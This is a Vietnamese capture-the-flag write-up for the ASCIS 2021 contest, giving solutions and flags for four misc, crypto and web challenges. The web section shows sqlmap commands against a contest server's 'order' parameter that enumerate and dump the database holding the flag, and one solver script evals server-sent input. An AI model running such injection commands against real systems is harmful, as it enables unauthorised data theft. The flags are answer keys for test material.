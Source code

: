 # ASEAN STUDENT CONTEST ON INFORMATION SECURITY 2021

### Overview
 | Title | Category | Points | Flag
 | ------ | ------ | ------ | ------ |
 | [Simple For](#Simple-For) | Misc | 100 | `ASCIS{n3tw0rk_f0r3ns1c_1s_n0t_h4rd}` |
 | [Calculate me](#Calculate-me) | Misc | 100 | `ASCIS{3v3ry0n3_sh0uld_kn0w_pr0gramm1ng}` |
 | [CALL ME MAYBE](#CALL-ME-MAYBE) | Crypto | 100 | `FLAG{SMS AND DMTF}` |
 | [Hitech Shop](#Hitech-Shop) | Web | 100 | `ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY}` |
 
# Simple For
 
### Challenge
 
<img src=files/185903.png>
 
[capture.pcap](files/capture.pcap)
 
### Solution

<img src=files/191647.png>

Follow TCP Stream

<img src=files/191756.png>

# Calculate me
 
### Challenge
 
<img src=files/192446.png>
 
### Solution

Dùng netcat truy cập ta nhận được như sau. (timeout là 5s)

<img src=files/192943.png>

Viết chương trình socket giao tiếp với server.

```python
# !/usr/bin/python
import socket

def receive_one_line(s):
    r = b''

    # Lần lượt nhận từng ký tự, nếu là ký tự xuống dòng thì ngưng
    while (True):
        t = s.recv(1)
        if t == b'\n': break
        r = r + t

    # Trả về kết quả dạng string
    return r.decode()

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('125.235.240.166',20103))

data = receive_one_line(s)
print(data)
data = receive_one_line(s)
print(data)
while True:
    data = receive_one_line(s)
    print(data)

    str = int(eval(data[:data.find('=')]))
    print(str)

    s.sendall(f"{str}\n".encode())

    data = receive_one_line(s)
    print(data)
    data = receive_one_line(s)
    print(data)
```

Kết quả ta lấy được cờ.

<img src=files/193213.png>

# Simple For

### Challenge

<img src=files/193838.png>

### Solution

DTMF Code

<img src=files/194556.png>

Phone (SMS)

<img src=files/194643.png>

Cipher.txt > [DTMF Code](https://www.dcode.fr/dtmf-code) > 777767777026630368333 > [Multi-tap Phone (SMS)](https://www.dcode.fr/multitap-abc-cipher) > SMS AND DMTF

# Hitech Shop

### Challenge

<img src=files/195002.png>

### Solution

Fuz thử với dấu `'` ta không thấy display ra lỗi. Vậy guess là web server sử dụng hàm set_error_handler để catch lỗi.

<img src=files/195305.png>

Dùng sqlmap để exploit.

```
# sqlmap -u "http://125.235.240.166:20105/index?order=name" --dbs                  
...
available databases [2]:
[*] information_schema
[*] vannd
...
# sqlmap -u "http://125.235.240.166:20105/index?order=name" -D vannd --tables      
...
Database: vannd
[2 tables]
+----------+
| flag     |
| products |
+----------+
...
# sqlmap -u "http://125.235.240.166:20105/index?order=name" -D vannd -T flag --dump
Database: vannd
Table: flag
[1 entry]
+---------------------------------------+
| secret                                |
+---------------------------------------+
| ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY} |
+---------------------------------------+
...
```

















